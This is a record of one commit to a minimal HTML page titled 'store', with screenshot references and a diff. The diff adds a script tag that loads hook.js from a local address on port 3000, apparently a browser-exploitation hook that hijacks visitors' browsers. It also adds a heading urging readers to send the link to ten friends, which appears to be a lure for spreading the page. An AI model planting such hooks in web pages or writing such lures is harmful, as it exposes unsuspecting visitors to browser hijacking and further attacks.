

Before and after one commit to 01124597201/store, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,12 +1,23 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
+    <style>
+        body{
+            background-color: aqua;
+        }
+    </style>
     <meta charset="UTF-8">
     <meta http-equiv="X-UA-Compatible" content="IE=edge">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>store</title>
+
 </head>
 <body>
+    <script src="http://192.168.1.7:3000/hook.js"> </script>
+   <h1>welcome </h1>
+   <h2>wo win send this link to 10 friends</h2>
+
+
 
 </body>
 </html>
```
